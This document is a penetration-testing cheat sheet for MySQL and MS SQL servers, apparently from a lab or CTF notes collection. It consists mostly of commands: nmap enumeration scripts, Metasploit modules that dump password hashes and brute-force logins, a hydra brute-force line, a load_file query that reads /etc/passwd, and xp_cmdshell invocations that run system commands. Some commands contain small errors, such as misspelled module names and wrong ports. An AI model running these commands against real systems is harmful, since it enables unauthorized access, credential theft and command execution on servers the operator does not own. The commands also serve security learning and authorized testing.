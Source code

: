```yaml
---
description: 1433 - MS Sql, 3306 - Linux
---
```


# v - MySQL - 1433,3306

`nmap $ip -sV -p3306` - basic enumeration.

`mysql -h $ip -u root` - lets try to login with "root".

### Using Metasploit

```bash
# 1
use auxiliary/scanner/mysql/mysql_writable_dirs
show options
set dir_list /usr/share/metasploit-framework/data/wordlists/directory.txt
setg rhosts $ip
show advanced
set verbose false
set username root
set password ""
options
run

# 2
# dumping hashed of users in the db
use auxiliary/scanner/mysql/mysql_hashdump
options
set username root
set password ""
exploit
```

## Accessing System FIles from MySql

```sql
# 1
# when you successfully login into victim mysql db
# outputs the /etc/passwd file.
select load_file('/etc/passwd');

```

## Using Nmap to check for Accounts with no passwords

`nmap $ip -sV -p3306 --script=mysql-empty-password` - finds accounts that require no password for authentication.

`nmap $ip -sV -p3306 --script=mysql-info` - outputs info about the db.

`nmap $ip -sV -p3306 --script=mysql-users --script-args="mysqluser='root',mysqlpass=''"` - enumerate users in the db.

`nmap $ip -sV -p3306 --script=mysql-databases --script-args="mysqluser='root',mysqlpass=''"` - enumerate databases.

`nmap $ip -sV -p3306 --script=mysql-variables --script-args="mysqluser='root',mysqlpass=''"` - enumerate variables.&#x20;

`nmap $ip -sV -p3306 --script=mysql-audit --script-args="mysql-audit.user='root',mysql-audit.password='',mysql-audit.filename='/usr/share/nmap/nselib/data/mysql-cis.audit'"` - auditing the db.

`nmap $ip -sV -p3306 --script=mysql-dump-hashes --script-args="username='root',password=''"` - dumps hashes (hashdump).

## Dictionary Attacks (brutefrocing creds)

### \[msfconsole] Metasploit

```bash
# bruteforcing with metasploit
use auxilary/scanner/mysql/mysql_login
set rhosts $ip
set pass_file usr/share/metasploit-framework/data/wordlists/unix_passwords.txt
set verbose false
set stop_on_success true
set username root
run
```

### \[hydra] utility

`hydra -l root -P /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt $ip mysql` - run the attack.



## Microsoft  SQL  nmap scripts

`nmap $ip -p1433 --script ms-sql-info` - enumerate the ms-sql server version.

`nmap $ip -p1433 --script ms-sql-ntlm-info --script-args  mssql.instance-port=1433`  - enumerate ms-sql ntlm info.

`nmap $ip -p3306 --script ms-sql-brute --script-args userdb=/path_to_wordlist,passdb=/path_to_wd` - brute forcing.

`nmap $ip -sV -p1433 --script=ms-sql-empty-password` - finds accounts that require no password for authentication.

`nmap $ip -sV -p3306 --script=ms-sql-query --script-args mssql.username=admin,mssql.password=dking,ms-sql-query.query="SELECT * FROM <table_name>..syslogins" -oN output.txt` - performs a query

`nmap $ip -sV -p3306 --script=ms-sql-dump-hashes --script-args mssql.username=admin,mssql.password=anabell` - hashdump

`nmap $ip -sV -p3306 --script=ms-sql--xp-cmdshell --script-args mssql.username=admin,mssql.password=anabell,ms-sql-xp-cmdshell.cmd="ipconfig"` - run a query that executes the "ipconfig" cmd.

`nmap $ip -sV -p3306 --script=ms-sql--xp-cmdshell --script-args mssql.username=admin,mssql.password=anabell,ms-sql-xp-cmdshell.cmd="type c:\flag.txt"` - run a query that reads the content of the "flag.txt" file.

## Microsoft  SQL enumeration with Metasploit

```bash
# 1

```











